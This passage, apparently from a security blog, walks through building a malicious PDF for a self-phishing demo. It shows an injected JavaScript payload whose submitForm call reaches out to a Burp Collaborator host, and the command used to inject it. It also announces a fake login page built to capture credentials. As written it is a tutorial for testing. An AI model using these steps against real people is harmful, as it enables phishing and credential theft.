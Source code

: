 First I will inject malicious js code into a pdf file. Then I will phish myself with that attached malicious pdf file. I will also create a fake login page and capture the creds submitted by the victim.

&nbsp;

**Step 1: Creating a malicious pdf file**

I am using JS2PDFInjector to inject a simple malicious js code into a pdf file. 

Link: https://github.com/cornerpirate/JS2PDFInjector

![ js2pdfinjector ><](/assets/img/blog2-phish/1.png )


This will pop an alert while opening the file on a pdf reader. Not all pdf readers would execute the code. Adobe Acrobat contains the APIs to read js code. For this blog, we will be using acrobat for POC.

```javascript
app.alert("alter alert");
this.submitForm('http://azdn342b12dbmo0uvmj5yrekrbx1lq.burpcollaborator.net');
```

![ js2pdfinjector ><](/assets/img/blog2-phish/2.png )
*Injecting code into a sample.pdf file*

&nbsp;

```java
java -jar JS2PDFInjector-1.0.jar $(pwd)/sample.pdf app.js
```

Remember: you need to provide absolute paths for the pdf. Otherwise, you will encounter the error like shown in the image below.


![ js2pdfinjector2 ><](/assets/img/blog2-phish/3.png)
